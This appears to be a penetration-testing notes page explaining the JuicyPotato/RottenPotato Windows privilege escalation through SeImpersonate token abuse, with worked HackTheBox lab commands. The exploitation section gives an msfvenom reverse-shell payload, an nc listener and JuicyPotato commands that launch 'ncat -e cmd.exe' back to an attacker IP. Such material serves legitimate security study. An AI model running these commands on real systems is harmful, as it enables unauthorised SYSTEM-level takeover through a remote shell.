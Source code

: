 # JuicyPotato/RottenPotato

## Short **Summary**

If an user account you control has the SEImpersonate token (which most service accounts have), then you can get root.

_Note: This exploit was effectively **patched** in Win10 1809 and Windows Server 2019. **RoguePotato** came out after that and I don't know if/when it was patched._ [_SweetPotato_](https://github.com/CCob/SweetPotato) _aims to combine various \*potato exploits into one script for easy exploitation._

{% embed url="https://github.com/ohpe/juicy-potato" %}

## Explanation

### Requirements

If your user has **SeImpersonate** or **SeAssignPrimaryToken** privileges then you are effectively SYSTEM. Normal users don’t usually have these, but service-level users might. You can check this with `whoami /all` under "Privileges".

You also need to be able to call a DCOM service, which:

1. implements the IMarshal interface
2. runs as an elevated user (SYSTEM, Administrator, ...)

Normally this is port 6666, but there are other such services, in case that one is blocked.

### Tokens

Every process has an access token, which specifies, what kinds of actions you can take. With the right privileges, Windows allows you to impersonate tokens for identification or for doing actions on another user’s behalf.

There are basically two kinds of impersonation tokens:

* Delegate/impersonate - these allow you to perform actions
* Identify/anonymous - for identification, don’t allow you to perform actions.&#x20;

If you can get a delegate/impersonate impersonated access token with SYSTEM rights, then you can perform actions as SYSTEM.

### How It Works

How RottenPotato works at a high level:

1. Trick the “NT AUTHORITY\SYSTEM” account into authenticating via NTLM to a TCP endpoint we control.
2. Man-in-the-middle this authentication attempt (NTLM relay) to locally negotiate a security token for the “NT AUTHORITY\SYSTEM” account. This is done through a series of Windows API calls.
3. Impersonate the token we have just negotiated. This can only be done if the attackers current account has the privilege to impersonate security tokens. This is usually true of most service accounts and not true of most user-level accounts.

## Exploitation

First of all, download the [juicypotato](https://github.com/ohpe/juicy-potato/releases) executable. If the official release isn't working, try an [x86 version](https://github.com/ivanitlearning/Juicy-Potato-x86).

You're going to need something for JuicyPotato to execute when it finishes successfully. For example, you could generate a reverse shell.

```
msfvenom -p windows/shell_reverse_tcp LHOST="10.10.14.20" LPORT=8002 -f exe > reverse.exe
```

Listen for the reverse shell on your machine:&#x20;

```
nc -lnvp 8002
```

On the victim machine, execute juicypotato (in this case the x86 variant):&#x20;

```
.\JuicyPotato.x86.exe -l 1337 -c "CLSID_HERE" -p C:\path\to\reverse.exe -t *
```

You're probably going to need to test multiple CLSIDs before you get a working one. [Here is a list of CLSIDs to try.](http://ohpe.it/juicy-potato/CLSID/)

For example, in the hackthebox "devel" machine, this was the successful exploit (my reverse.exe was in the inetpub/wwwroot directory):&#x20;

```
.\JuicyPotato.x86.exe -l 1337 -c "{4B635ECB-0887-4015-8CA6-D621362F98D1}" -p C:\inetpub\wwwroot\reverse.exe -t *
```

Alternatively, you can use it with a static ncat.exe file:&#x20;

```
.\JuicyPotato.x86.exe -l 1337 -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}" -p c:\windows\system32\cmd.exe -a "/c C:\Users\Public\ncat.exe -e cmd.exe 10.10.14.17 8002" -t *
```

### External Links

{% embed url="https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/" %}
Technical explanation of RottenPotato, which JuicyPotato is based on
{% endembed %}

{% embed url="https://www.youtube.com/watch?v=QRpfvmMbDMg" %}
Blackhat technical talk about tokens
{% endembed %}





